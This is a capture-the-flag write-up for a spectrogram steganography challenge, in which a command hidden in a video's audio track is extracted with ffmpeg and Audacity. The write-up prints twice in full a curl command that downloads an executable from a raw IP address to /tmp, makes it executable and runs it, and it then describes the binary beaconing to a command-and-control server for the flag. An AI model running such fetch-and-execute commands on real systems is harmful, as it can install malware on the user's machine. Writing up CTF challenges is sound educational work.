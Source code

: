 # Sorry, you're NOT a sigma! – Spectrogram Steganography Challenge Writeup

## Challenge Metadata
**Challenge Name:** Sorry, you're NOT a sigma!
**SHA256 Hash:** 66591540e5dd8e925128513d1ca0810118350c822429e4e8c1d1a98b7d8924f3  
**Challenge Type:** Steganography  
**Technique Used:** Spectrogram-based steganography embedded in audio stream

---

## Step-by-Step Solution

### Step 1: Initial Analysis
The video file `lion.mp4` was inspected using `ffmpeg` to confirm audio streams existed. This revealed multiple audio tracks, including one at a sample rate of 22050 Hz.

### Step 2: Extract Audio
Extracted the audio to a standalone file for better analysis.

```bash
ffmpeg -i lion.mp4 -vn -acodec copy track2.aac
```

### Step 3: Spectrogram Visualization in Audacity
1. Imported `track2.aac` into Audacity.
2. Right-clicked the track name and changed the view to `Spectrogram`.
3. Zoomed and adjusted settings for clarity.

The spectrogram revealed the following text visually embedded in the waveform:
![image](https://github.com/user-attachments/assets/76420728-ab8b-4970-804c-17e28c4d154a)


```
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

### Step 4: Command Execution
Ran the embedded command to fetch and execute a payload:

```bash
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

### Step 5: Beaconing and Response
The binary beaconed to the C2 server. After multiple attempts, it successfully contacted the server and decrypted the response:

```
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

---

## Key Concepts and Techniques

- Spectrogram steganography hides data in the frequency domain of audio.
- Audacity or Sonic Visualiser is commonly used to reveal these embeddings.
- Commonly used in CTFs for hiding text, commands, or QR codes in audio waveforms.

---

## Flag
```
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

![image](https://github.com/user-attachments/assets/daa1836b-2227-4fca-b665-37a3ed2cbc4e)


